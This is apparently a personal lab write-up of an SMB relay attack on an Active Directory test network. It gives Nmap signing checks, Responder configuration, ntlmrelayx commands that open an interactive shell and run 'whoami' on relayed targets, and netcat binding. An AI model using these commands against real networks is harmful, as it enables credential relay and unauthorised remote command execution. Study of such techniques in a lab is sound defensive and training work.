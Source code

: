 ## SMB Relay Attacks Lab

### Identify Hosts with Nmap
- Run Nmap `nmap --script=smb2-security-mode.nse -p445 <DC IP>`
- Use `-Pn` to skip ping if it's blocked

  ![image](https://github.com/user-attachments/assets/9eba0cbf-a8f7-47a9-96ba-230cb12a9ffa)

- DC has message signing enabled and required
- Can't relay to DC, womp womp
- Sweep the network with `0/24`
- Both workstations have SMB signing enabled but not required, what we want

  ![image](https://github.com/user-attachments/assets/7fc5a7d5-4683-484c-bf07-61e58b83b15c)

  ![image](https://github.com/user-attachments/assets/4274f204-79a0-4123-b5d7-45f259d77ff8)

- Add workstation IPs to targets.txt

### Responder
- Change the config `sudo vim /etc/responder/Responder.conf` to turn off SMB and HTTP
- Run responder `sudo responder -I eth0 -dwv`

### Run SMB Relay
- Run SMB Relay `ntlmrelayx.py -tf targets.txt -smb2support -i`

### Event
- Point victim on domain to attacker by navigating to `\\<IP>` in File Explorer`

### Bind to Shell
- SMB Relay successfully authenticates to other machine

  ![image](https://github.com/user-attachments/assets/e02a981c-bd4e-4c81-bd76-fd3dec085601)

- Use netcat: `nc 127.0.0.1 11000` to bind to port

  ![image](https://github.com/user-attachments/assets/90145aff-6e76-4244-8dc4-adc7953803c1)

### PoC
- Run SMB Relay `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

  ![Screenshot 2025-02-02 215254](https://github.com/user-attachments/assets/0f613f24-fffe-4030-bf73-cb565078984a)
  
